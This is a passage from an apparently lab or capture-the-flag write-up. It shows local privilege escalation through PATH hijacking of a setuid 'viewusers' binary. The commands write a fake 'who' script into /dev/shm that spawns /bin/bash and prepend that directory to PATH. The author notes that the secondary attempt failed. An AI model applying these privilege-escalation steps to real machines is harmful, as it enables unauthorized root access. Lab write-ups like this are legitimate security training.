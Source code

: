 
change chmod to executable

    chmod +x /tmp/listusers

which if executed launches a shell

Return to `viewusers` who en turn will execute this file should launch a bash shell as root.

    viewusers

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537970531_image.png)

## secondary exploit of “who” statement
![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556538703367_image.png)


 *what should be seen is “/usr/bin/who”*

Locate who

    which who

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556538792140_image.png)


change PATH

    export PATH=/dev/shm:$PATH
    echo $PATH

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556539717409_image.png)


now we can edit `who`

    vi who
    (insert above /bin/bash)
    #!/bin/bash
    echo "Sending a shell"
    /bin/bash

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556539816117_image.png)


change chmod to executable

    chmod +x who
    viewuser

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556539907803_image.png)


*did not priv-esc because the “who” calls the /bin/bash before the setuid(0) in the function causing it not to be vulnerable.*

# Loot&Root
![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556538067513_image.png)



----------

 If you don’t know who ippsec is check him out at https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA
 
 Twitter: https://twitter.com/ippsec

